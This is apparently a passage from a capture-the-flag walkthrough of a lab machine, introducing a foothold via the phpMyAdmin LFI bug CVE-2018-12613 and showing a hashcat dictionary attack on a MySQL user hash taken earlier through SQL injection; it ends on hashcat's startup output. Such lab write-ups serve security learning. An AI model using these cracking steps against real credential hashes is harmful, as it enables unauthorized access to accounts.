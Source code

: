 ## Foothold - Alternative Method (PhpMyAdmin LFI Remote Code Execution - CVE-2018-12613)

From the previous SQL injection, I cracked the the MySQL DBAdmin user's hash:

```
$ hashcat --example-hashes | grep -iC1 mysql
... CONTENT SNIPPED ...

MODE: 300
TYPE: MySQL4.1/MySQL5
HASH: fcf7c1b8749cf99d88e5f34271d636178fb5d130
--

... CONTENT SNIPPED ...
```

```
PS D:\hashcat\hashcat-6.0.0> .\hashcat.exe -a 0 -m 300 ..\hashes\jarvis.mysql ..\wordlists\rockyou.txt
hashcat (v6.0.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #3: Unstable OpenCL driver detected!

This OpenCL driver has been marked as likely to fail kernel compilation or to produce false negatives.
You can use --force to override this, but do not report related errors.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 11.0)
====================
* Device #1: GeForce GTX 1650 with Max-Q Design, 3323/4096 MB, 16MCU

OpenCL API (OpenCL 1.2 CUDA 11.0.208) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: GeForce GTX 1650 with Max-Q Design, skipped

OpenCL API (OpenCL 2.1 ) - Platform #2 [Intel(R) Corporation]
=============================================================
* Device #3: Intel(R) UHD Graphics 630, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
```